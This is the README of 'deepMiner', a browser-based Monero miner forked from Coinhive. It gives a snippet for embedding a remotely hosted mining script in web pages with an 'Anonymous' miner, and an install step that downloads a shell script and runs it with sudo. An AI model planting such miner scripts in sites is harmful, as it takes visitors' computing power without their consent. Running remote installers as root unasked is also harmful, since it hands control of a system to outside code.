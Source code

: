 # deepMiner

```acsii

:::::::-.  .,:::::: .,::::::::::::::::. .        :   ::::::.    :::..,:::::: :::::::..   
 ;;,   `';,;;;;'''' ;;;;'''' `;;;```.;;;;;,.    ;;;  ;;;`;;;;,  `;;;;;;;'''' ;;;;``;;;;  
 `[[     [[ [[cccc   [[cccc   `]]nnn]]' [[[[, ,[[[[, [[[  [[[[[. '[[ [[cccc   [[[,/[[['  
  $$,    $$ $$""""   $$""""    $$$""    $$$$$$$$"$$$ $$$  $$$ "Y$c$$ $$""""   $$$$$$c    
  888_,o8P' 888oo,__ 888oo,__  888o     888 Y88" 888o888  888    Y88 888oo,__ 888b "88bo,
  MMMMP"`   """"YUMMM""""YUMMM YMMMb    MMM  M'  "MMMMMM  MMM     YM """"YUMMMMMMM   "W" 

  deepMiner
  Forked from coinhive.com
  Worker for own Pool or personal XMR Wallet
  By evil7@deePwn

----------------------------------------------------------------------------------------

```

## Usage

* Add a script inmport `https://deepminer.herokuapp.com/deepMiner.js`

* Add another script and write down :

```html
<script src="https://deepminer.herokuapp.com/deepMiner.js"></script>
<script>
    var miner = new deepMiner.Anonymous('deepMiner_test').start();
</script>
```

* All done! XD~ Let's build our srv by self

## Install

```bash
curl https://raw.githubusercontent.com/deepwn/deepMiner/master/install.sh > install.sh
sudo sh install.sh
```

## Example

<https://deepminer.herokuapp.com/demo.html>

## Source

```acsii
deepMiner.git
.
|-- README.md
|-- banner
|-- config.json
|-- package-lock.json
|-- package.json
|-- server.js
|__ web
    |-- 404.html
    |-- deepMiner.js
    |-- demo.html
    |-- index.html
    |-- lib
    |   |-- cryptonight-asmjs.min.js
    |   |__ cryptonight.wasm
    |__ worker.js
```

## Latest

2017-10-10
